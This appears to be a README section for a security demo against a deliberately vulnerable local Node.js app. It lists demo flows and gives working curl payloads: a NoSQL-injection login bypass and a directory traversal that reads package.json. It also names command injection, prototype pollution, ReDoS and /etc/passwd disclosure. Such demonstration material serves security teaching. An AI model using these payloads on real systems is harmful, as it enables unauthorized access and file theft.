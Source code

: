 
## 🎬 Recommended Demo Flow

### Option A: **Quick Impact Demo** (5 minutes)
```
1. Launch menu: ./attack-menu.sh
2. [1] NoSQL Injection - Bypass authentication
3. [2] Directory Traversal - Read package.json
4. [10] Vulnerability Scan - Show 138 vulnerabilities
```

### Option B: **Comprehensive Demo** (15 minutes)
```
1. [C] Check Status - Show app is online
2. [1] NoSQL Injection - All 3 tests
3. [2] Directory Traversal - Read sensitive files
4. [5] Prototype Pollution - Privilege escalation
5. [4] Command Injection - RCE demonstration
6. [10] Vulnerability Scan - Full npm audit
7. Discuss Red Hat defensive strategies
```

### Option C: **Advanced Red Team Demo** (20 minutes)
```
1. [1] NoSQL Injection
2. [2] Directory Traversal
3. [4] Command Injection (RCE)
4. [5] Prototype Pollution
5. [6] ReDoS (DoS attack)
6. [9] Information Disclosure (/etc/passwd)
7. Show exploitation chain combining vulnerabilities
8. Demonstrate Red Hat hardening (SELinux, firewalld, SCAP)
```

---

## 🛠️ Manual Command Examples

### NoSQL Injection (Fastest Impact)
```bash
curl -X POST http://localhost:3001/login \
  -H 'Content-Type: application/json' \
  -d '{"username": "admin@snyk.io", "password": {"$gt": ""}}'

# Expected: 302 Redirect to /admin
```

### Directory Traversal (Read package.json)
```bash
# Step 1: Authenticate
curl -X POST http://localhost:3001/login -c /tmp/cookies.txt \
  -H 'Content-Type: application/json' \
  -d '{"username": "admin@snyk.io", "password": {"$gt": ""}}'

# Step 2: Exploit
curl -X POST http://localhost:3001/account_details -b /tmp/cookies.txt \
  -H 'Content-Type: application/json' \
  -d '{"email": "admin@snyk.io", "firstname": "admin", "lastname": "admin",
       "country": "IL", "phone": "+972551234123", "layout": "./../package.json"}'
```
